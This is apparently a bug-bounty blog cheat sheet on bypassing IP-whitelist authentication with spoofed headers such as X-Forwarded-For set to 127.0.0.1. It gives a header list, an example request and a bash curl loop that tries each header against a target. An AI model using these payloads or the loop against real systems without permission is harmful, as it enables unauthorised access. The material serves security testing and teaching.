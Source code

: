 ```yaml
---
layout: post
title: "Cheatsheet: Auth Bypass Headers"
date: 2022-08-07 11:15 +0100
categories: [Cheatsheets]
tags: bugbounty web hacking cheatsheet
published: true
---
```


Adapted from this tweet:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">I have found multiple auth bypass issues using below Headers<a href="https://twitter.com/hashtag/bugbountytips?src=hash&amp;ref_src=twsrc%5Etfw">#bugbountytips</a> <a href="https://twitter.com/hashtag/bugbounty?src=hash&amp;ref_src=twsrc%5Etfw">#bugbounty</a> <a href="https://t.co/R82TXWiyDX">pic.twitter.com/R82TXWiyDX</a></p>&mdash; ¯\_(ツ)_/¯85 (@BountyOverflow) <a href="https://twitter.com/BountyOverflow/status/1555786315232206848?ref_src=twsrc%5Etfw">August 6, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

The following headers can potentially be used to bypass authentication on a webserver.

- X-Forwarded: 127.0.0.1
- X-Forwarded-By: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded-For-Original: 127.0.0.1
- X-Forwarder-For: 127.0.0.1
- X-Forward-For: 127.0.0.1
- Forwarded-For: 127.0.0.1
- Forwarded-For-Ip: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
- X-Originating-Ip: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Trusted-IP: 127.0.0.1
- X-Requested-By: 127.0.0.1
- X-Requested-For: 127.0.0.1

## Example Usage

Scenario: You try to access `/login` and get a custom `401` response that says something like:

`IP not on Whitelist!`

(not a likely response but serves as an example)

You'd then try and send the following request:

```bash
GET /login HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: bullsec.xyz
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
```

> That endpoint doesn't exist on this site this is not a lab.
{: .prompt-warning}

The idea is that the webserver will parse the `X-Forwarded-For` header and assume that the request has been forwarded to it on behalf of `127.0.0.1` / `localhost` and let you access the "Blocked" `/login` endpoint. 

## Automation Block

```bash
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Trusted-IP: 127.0.0.1
X-Requested-By: 127.0.0.1
X-Requested-For: 127.0.0.1
```

> Copy the above into a text file

```bash
TARGET=<target-ip-address>
for x in $(cat headers.txt);do curl -v $TARGET -H "$x" ; done
```

That's your lot.

Enjoy,
